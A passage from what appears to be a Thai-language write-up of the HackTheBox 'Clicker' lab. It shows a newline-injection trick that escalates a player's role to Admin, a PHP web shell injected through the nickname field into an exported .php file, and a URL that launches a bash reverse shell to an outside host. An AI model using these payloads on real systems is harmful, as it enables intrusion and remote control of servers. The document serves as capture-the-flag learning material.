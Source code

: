 ## Bypass to Admin 

การเลี่ยงการตรวจสอบนี้ คือการใช้ **newline injection** (การแทรกบรรทัดใหม่) ในชื่อพารามิเตอร์ โดย SQL มักจะยืดหยุ่นกับช่องว่างหรือการเว้นบรรทัด (ในความเป็นจริง มักจะเป็นแนวทางปฏิบัติที่ดีในการแยก query ยาว ๆ ออกเป็นหลายบรรทัด) ดังนั้น หากฉันใช้พารามิเตอร์เป็น `role%0a=Admin` (ซึ่ง `%0a` คือรหัสของการขึ้นบรรทัดใหม่ `\n`), การตรวจสอบเงื่อนไข `strtolower($key) === 'role'` ก็จะไม่เป็นจริง เพราะชื่อพารามิเตอร์จะไม่ใช่ `'role'` ตรง ๆ เมื่อมันไปถึงฟังก์ชัน `save_profile`

ซึ่งเราจะต้องพยายามยกรดับสิทธิด้วยคำสั่ง SQL Statement ดังต่อไปนี้ 

```sql
UPDATE players SET clicks='4',level='0',role
='Admin' WHERE username = "ice";
```

สังเกตจากตัวอย่างด้านบนคือ เราได้เว้รบรรทัดสำหรับหลีกเลี่ยงการตรวจจับ 

![[Challenge/HTB Challenge/Clicker/IMG/009.png]]

จากนั้นให้ลอง logout และ login  ใหม่ จะพบว่ามีเมนู administrator ขึ้นมา 
![[Challenge/HTB Challenge/Clicker/IMG/010.png]]

สำหรับหน้า admin portal เราจะสามารถ export ข้อมูลของ top player ได้ ซึ่งเมื่อเรากด export เราจะได้ข้อมูลของ url กลับมา 

![[Challenge/HTB Challenge/Clicker/IMG/011.png]]

![[Challenge/HTB Challenge/Clicker/IMG/012.png]]

จากข้อมูลดังกล่าวแสดงให้เห็นว่ามีการสร้างไฟล์ใหม่ขึ้นมา อยู่ภายใต้ export ซึ่งหากเราไปดู Request จะพบว่ามีการส่ง extension เป็น txt แต่หากเราเปลี่ยนเป็น php ก็สามารถทำได้เช่นกัน 

![[Challenge/HTB Challenge/Clicker/IMG/013.png]]


จากนั้นในหน้า save_profile.php เราจะพยายามแทรกโค็ด php ลงไปใน arg nickname 

```php
<?php system($_GET["cmd"]); ?>
```

![[Challenge/HTB Challenge/Clicker/IMG/014.png]]

จากนั้น save บน export.php ไฟล์ php 
![[Challenge/HTB Challenge/Clicker/IMG/015.png]]

ซึ่งหากเข้าผ่าน url แล้วตามด้วย cmd=id จะได้ข้อมูลดังต่อไปนี้ 
![[Challenge/HTB Challenge/Clicker/IMG/016.png]]

## Exploit to SHELL!

```bash
http://clicker.htb/exports/top_players_mvu1v3r0.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.9/443%200%3E%261%27
```
